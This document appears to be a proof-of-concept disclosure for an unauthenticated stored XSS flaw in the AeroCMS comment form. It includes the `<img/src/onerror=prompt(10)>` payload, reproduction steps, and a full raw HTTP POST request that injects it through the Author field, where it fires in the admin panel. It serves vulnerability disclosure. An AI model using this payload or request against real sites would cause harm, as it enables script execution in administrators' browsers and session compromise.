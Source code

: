 # AeroCMS-Comment-Stored_XSS-POC
* `Note` Don't need register or login account 
* `Description` => `Stored_XSS` at comment box
## Step to Reproduct
* Click `Read More` -> input payload `<img/src/onerror=prompt(10)>` at `Author` -> click `Submit` button 
# Exploit
* Input payload at `Author` -> click `Submit` button
![image](https://user-images.githubusercontent.com/79050415/157009053-539e0d0f-8de7-449f-9815-2059c15179ab.png)
* When admin login to admin panel and click `Comments` -> The XSS will trigger 
![image](https://user-images.githubusercontent.com/79050415/157009623-8afdecf4-8bfc-48ed-be9c-a298628eeb5f.png)
* Finally, Success !!!!
![image](https://user-images.githubusercontent.com/79050415/157009805-fc9c33bb-7ae9-4229-9051-081c23d72b92.png)
# Vulnerable Code

# POC
```c
POST /AeroCMS/post.php?p_id=36 HTTP/1.1
Host: localhost:8080
Content-Length: 126
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/AeroCMS/post.php?p_id=36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=loqbt1ibs376hge1s415srq441
Connection: close

comment_author=%3Cimg%2Fsrc%2Fonerror%3Dprompt%2810%29%3E&comment_email=bin%40gmail.com&comment_content=hacked&create_comment=
```
`POC VIDEO` https://drive.google.com/file/d/1GxOyX1JkG0trfdaCLfe06TR6WLIGoUXE/view?usp=sharing
